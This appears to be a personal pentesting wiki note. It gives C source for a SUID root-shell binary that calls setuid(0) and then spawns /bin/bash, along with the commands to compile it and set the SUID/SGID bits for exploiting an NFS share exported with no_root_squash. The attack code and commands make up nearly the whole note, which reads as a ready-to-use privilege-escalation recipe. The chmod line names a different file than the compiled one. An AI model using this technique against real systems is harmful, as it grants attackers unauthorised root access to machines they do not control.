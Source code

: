 
for use with for example [[nfs - no_root_squash]]

```c
int main(){
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

compile
`gcc runbash.c -o runbash`

if exploiting nfs no_root_squash, set suid after moving the file

set executable and suid/sgid but
`chmod +xs runbash.py`

